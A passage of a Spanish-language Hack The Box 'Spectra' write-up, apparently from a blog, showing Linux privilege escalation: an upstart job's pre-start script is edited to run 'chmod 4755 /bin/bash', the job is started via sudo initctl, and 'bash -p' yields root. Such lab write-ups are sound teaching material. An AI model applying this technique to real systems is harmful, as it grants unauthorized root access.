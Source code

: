* [Asignando **SUID** a la bash para convertirnos en **root** - S4vitar lo explica también :P](https://www.youtube.com/watch?v=KH9EGcDMMRI&t=1527s).

> Los binarios **SUID** permiten a los usuarios ejecutar un archivo ejecutable con los permisos del archivo ejecutable o el propietario del grupo.
>> [Permiso **s** en un objeto linux](https://www.enmimaquinafunciona.com/pregunta/11304/como-puedo-borrar-el-permiso-de-s-en-un-directorio-en-linux).

Entonces, primero validemos como esta el binario `/bin/bash` antes de asignarle el permiso `SUID`:

```bash
katie@spectra /etc/init $ ls -la /bin/bash
-rwxr-xr-x 1 root root 551984 Dec 22 05:46 /bin/bash
# Tiene el permiso 755, pero faltaria el 4 (que es el SUID)
```

En estos momentos no podemos hacer nada con esa bash, ya que se ejecutaría una sesión dependiendo el usuario que lo ejecute, no el propietario...

Vamos al archivo job y agregamos:

```bash
...
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
    chmod 4755 /bin/bash
end script
...
```

Y ejecutamos:

```bash
katie@spectra /etc/init $ sudo /sbin/initctl start test9
```

Y si validamos ahora el binario `/bin/bash`:

![317bash_change_binBASH_SUID](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317bash_change_binBASH_SUID.png)

Perfecto, para validar lo que hicimos simplemente ejecutaríamos el binario, pero con el parámetro `-p` para que tome el SUID:

```bash
katie@spectra /etc/init $ /bin/bash
bash-4.3$ whoami
katie
bash-4.3$ exit
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# whoami
root
```

Listones, solo nos quedaría ver las flags :P
